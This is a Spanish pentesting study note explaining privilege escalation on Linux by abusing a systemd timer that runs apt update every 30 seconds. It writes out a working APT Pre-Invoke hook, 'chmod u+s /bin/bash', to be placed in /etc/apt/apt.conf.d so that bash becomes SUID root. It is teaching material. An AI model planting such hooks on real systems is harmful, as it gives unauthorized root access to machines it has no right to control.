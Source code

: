 -----
- Tags: #teoria #practica #escalada 
----

# Abuso de servicios internos del sistema

Los **servicios internos**  son componentes esenciales que operan en segundo plano dentro de un sistema operativo, encargándose de funciones críticas como la gestión de red, impresión, actualización de software y monitoreo del sistema, entre otros. 

NO obstante, si estos servicios **no están configurados adecuadamente** y se encuentran activos, pueden representar una brecha de seguridad significativa. Los atacantes podrían explotar estos servicios para obtener acceso no autorizado al sistema y llevar a cabo actividades malintencionadas. 

Un ejemplo concreto sería un servicio de red mal configurado con permisos elevados. Si un atacante logra identificarlo y hallar una forma de aprovecharlos, podría utilizarlo para escalar privilegios y obtener acceso de administrador. 

# Escalada 

Como sabemos cuando comprometemos una máquina puede ser que debido a reglas de firewall o configuraciones no veamos puertos abiertos a la hora de escanear los mismos, pero una vez que estamos dentro puede ser muy interesante revisar los puertos de la máquina ya que tal vez veamos resultados diferentes y podamos dar con servicios que corren que antes no podíamos ver. 

Ejemplo: 

Supongamos que en la ruta **/etc/systemd/system** existen dos archivos, un **apt-update.service** y un **apt-update.timer** los cuales llegamos a ver en base a ver los timers de los servios del sistema y buscar por uno el cual nos llama la atención llamado **apt-udpate.service** 

```bash
systemctl list-timers
# Fri 2023-06-02 11:38:50 EDT 18s left       Fri 2023-06-02 11:38:20 EDT 11s ago      apt-update.timer             apt-update.service

find / -name apt-update.service 2>/dev/null 
# /etc/systemd/system/apt-update.timer
# /etc/systemd/system/timers.target.wants/apt-update.timer
```

De esta manera nos dirigimos a la ruta **/etc/systemd/system** para ver el contenido de estos archivos. 

#### apt-update.service: 
```bash
 [Unit] 
 Description=Update package list 
 
 [Service]
 Type=oneshot
 ExecStart=/usr/bin/apt update 
```

#### apt-update.timer: 
```bash
 [Unit]
 Description=Update package list every 30 seconds 
 
 [Timer]
 OnUnitActiveSec=30s 
 Unit=apt-update.service
 
 [Install]
 WantedBy=timers.target 
```

En donde vemos que es un servicio el cual dispone de un timer para ser ejecutado cada 30s y que se encarga de ejecutar un apt-update del sistema. 

En este punto podríamos ver si por algún motivo contamos con permisos de escritura en la carpeta **/etc/apt/apt.conf.d**, en caso de contar con permisos de escrituras podríamos automáticamente buscar como realizar una ejecución de un comando Pre-Invoke al apt, ya que podemos establecer acciones que queremos que se realicen de manera previa y posterior a una actualización del sistema. 

Por lo que en la ruta **/etc/apt/apt.conf.d** creamos el archivo con formato como el de los demás, por ejemplo **01privesc**:

#### 01privesc: 
```bash
APT::Update::Pre-Invoke  {"chmod u+s /bin/bash";};
```

De esta manera en base al abuso de servicios internos del sistema podríamos lograr escalar privilegios. 